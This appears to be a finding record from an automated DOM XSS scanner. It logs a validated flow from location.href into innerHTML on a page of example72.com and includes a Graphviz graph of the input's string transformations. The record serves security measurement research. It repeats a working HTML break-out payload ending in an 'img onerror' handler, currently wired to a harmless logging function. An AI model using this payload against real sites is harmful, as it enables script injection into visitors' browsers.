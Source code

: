 // Finding: 95bb8011-6f51-4ebb-b400-4c5c75da62da
// Finding.url: https://www.example72.com/coronavirus/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('8c246a6b128449849697d8d0ab2ef6db')><!--/*
// Finding.parentloc: https://www.example72.com/coronavirus/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('8c246a6b128449849697d8d0ab2ef6db')><!--/*
// Finding.domain: www.example72.com
// Finding.base_domain: example72.com
// Finding.source: location.href
// Finding.sink: innerHTML
// Sanitizer.score: 1
// Sanitizer.name: 
// Sanitizer.location: https://www.example72.com/coronavirus/##</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('8c246a6b128449849697d8d0ab2ef6db')><!--/* - <anonymous>:1069:15
// Finding.begin: 357
// Finding.end: 434
// Finding.original_uuid: 0fc8f7df-5168-44ed-84f7-96374a8afc52
// Finding.TwentyFiveMillionFlowsId: 420132770
// Finding.script: https://www.example72.com/assets/javascript/jquery-3.4.1.min.js
// Finding.line: 2
// Exploit.uuid: 8c246a6b-1284-4984-9697-d8d0ab2ef6db
// Exploit.success: true
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: text
// Exploit.content: C
// Exploit.quote_type: None
// Exploit.tag: None
// Exploit.break_out: #</iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: #</iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 15
// Exploit.end_taint_url: 16
// Exploit.replace_begin_url: 33
// Exploit.replace_end_url: 33
// Exploit.replace_begin_param: 160
// Exploit.replace_end_param: 160
// Issues.LargestEncodeAttrStringChain: 0
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: true
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 442146017
// DepGraph.sanitizer_hash: -715280327
// Removed LR concats 
// Removed LR concats 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="str_replace_once"];
n2 [shape=box, label="RegExp: /(\?.*)$/"];
n3 [shape=box, label="Lit: "];
n4 [shape=box, label="Var: x"];
n5 [shape=ellipse, label="split"];
n6 [shape=box, label="Lit: /"];
n7 [shape=box, label="Var: x"];
n8 [shape=ellipse, label="substr"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Lit: 1"];
n11 [shape=ellipse, label="str_replace_once"];
n12 [shape=box, label="RegExp: /\.(htm[l]?|asp[x]?|php|jsp)$/"];
n13 [shape=box, label="Lit:  "];
n14 [shape=box, label="Var: x"];
n15 [shape=ellipse, label="str_replace_once"];
n16 [shape=box, label="RegExp: /\.(htm[l]?|asp[x]?|php|jsp)$/"];
n17 [shape=box, label="Lit:  "];
n18 [shape=box, label="Var: x"];
n19 [shape=ellipse, label="."];
n20 [shape=box, label="Lit:  "];
n21 [shape=ellipse, label="."];
n22 [shape=box, label="Lit:  "];
n23 [shape=ellipse, label="preg_replace"];
n24 [shape=box, label="RegExp: /[-]/"];
n25 [shape=box, label="Lit:  "];
n26 [shape=box, label="Var: x"];
n27 [shape=ellipse, label="."];
n28 [shape=box, label="Lit: </a></li>"];
n29 [shape=box, label="Var: x"];
n30 [shape=doubleoctagon, label="Return: x"];
n4 -> n0;
n1 -> n2;
n1 -> n3;
n1 -> n4;
n7 -> n1;
n5 -> n6;
n5 -> n7;
n9 -> n5;
n8 -> n9;
n8 -> n10;
n14 -> n8;
n11 -> n12;
n11 -> n13;
n11 -> n14;
n18 -> n11;
n15 -> n16;
n15 -> n17;
n15 -> n18;
n19 -> n15;
n19 -> n20;
n21 -> n19;
n21 -> n22;
n26 -> n21;
n23 -> n24;
n23 -> n25;
n23 -> n26;
n27 -> n23;
n27 -> n28;
n29 -> n27;
n30 -> n29;
}